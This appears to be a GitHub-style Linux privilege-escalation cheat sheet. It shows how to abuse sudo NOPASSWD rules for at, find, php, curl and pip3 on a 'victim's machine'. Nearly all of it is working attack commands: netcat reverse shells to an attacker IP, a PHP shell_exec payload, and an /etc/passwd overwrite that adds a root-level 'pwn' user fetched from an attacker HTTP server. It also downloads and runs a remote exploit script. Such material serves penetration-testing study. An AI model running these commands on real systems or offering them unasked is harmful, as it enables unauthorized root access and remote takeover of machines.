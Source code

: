 # Linux Privilege Escalation

## 1. /usr/bin/at

```
(root) NOPASSWD: /usr/bin/at
```
  **Attacker's machine** 
  
  - start listner on port 4444 using netcat 
  ```
  nc -nvlp 444
  ```
  
  **Victim's machine** 
  
  - create a bash script which contain this command 
  ```
  nc 192.168.0.106 4444 -e /bin/bash
  ``` 
  - run this command and wait for one minute
  ```
  sudo at -f exp.sh now + 1 minutes
  ```
  
## 2. /usr/bin/find

```
(root) NOPASSWD: /usr/bin/find
```
  **Victim's machine**
  
  - create a bash file using 
  ```
  echo "/bin/bash" > find.sh
  ```
  - pop root shell with this command
  ```
  sudo find /etc/passwd -type f -name "passwd" -exec bash find.sh "{}" \;
  ```
  
## 3. /usr/bin/php

```
root) NOPASSWD: /usr/bin/php
```
  **Attacker's machine**
  
  - start listner on port 1234 using netcat 
  ```
  nc -nvlp 1234
  ```
  
  **Victim's machine**
  
  - run this command and replace <IP> with your IP 
 ```
 echo "<?php shell_exec('nc <IP> 1234 -e /bin/sh');?>" > shell.php
 ```
  - pop up root shell
 ```
 sudo php shell.php
 ```

## 4. /usr/bin/curl

```
root) NOPASSWD: /usr/bin/curl
```

  **Attacker's machine**
  
  - Copy /etc/passwd from victim's machine and save it on attacker's machine as pass.txt
  - add this line at this end of the file 
  ```
  pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash
  ```
  - start http server using python and note the IP
  ```python -m SimpleHTTPServer 8080
  ```
  
  
  **Victim's machine**
  
  - run this command ( replace <IP> with your IP) 
 ```
 sudo curl http://<IP>:8080/pass.txt -o /etc/passwd
 ```
  - change user to **pwn** using password **pwn** 
 ```
 su pwn
 ```
 
## 5. /usr/bin/pip3 OR /usr/bin/pip

```
(root) NOPASSWD: /usr/bin/pip3
```
 **Attacker's machine**
 
 - start listner on port 4444 using netcat 
 ```
 nc -nvlp 4444
 ```
 
 **Victim's machine**
 
 - Download our modified exploit using curl 
 ```javascript 
 curl https://raw.githubusercontent.com/theamanrawat/privilege-escalation/master/Linux/pip_exp.py?token=AISTJLQB7CDRPQS3OWODDE27E23S2 -o exploit.py
 ```
 - run this exploit(replace <IP> with attacker's IP) and wait few seconds
 ```python3 exploit.py <IP> 4444 /usr/bin/pip3
 ```
  
